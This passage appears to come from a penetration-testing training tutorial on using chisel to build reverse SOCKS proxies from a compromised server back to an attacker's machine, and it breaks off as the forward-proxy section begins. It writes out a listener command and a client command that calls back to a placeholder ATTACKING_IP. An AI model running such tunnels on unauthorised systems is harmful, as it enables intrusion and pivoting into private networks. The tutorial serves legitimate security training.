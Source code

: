 We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read  through the help pages for the tool for this reason.*


------

***Reverse SOCKS Proxy:***
*Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects *back* from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use a command that looks something like this:
`./chisel server -p LISTEN_PORT --reverse &`

This sets up a listener on your chosen `LISTEN_PORT`. 

On the compromised host, we would use the following command:
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

This command connects back to the waiting listener on our attacking box,  completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

![Demonstrating a successful connection with chisel](assets/a27fb82676b4.png)

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to *remotes* (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has  been started in reverse mode. It essentially tells the chisel client  that the server anticipates the proxy or port forward to be made at the  client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once  again, reading the chisel help pages for more information is  recommended. 

***Forward SOCKS Proxy:***
*Forward proxies are rarer than reverse proxies for the same reason as reverse  shells are more common than bind shells; generally speaking, egress  firewalls (handling outbound traffic) are less stringent than ingress  firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.

In many ways the syntax for this is simply reversed from a reverse proxy.
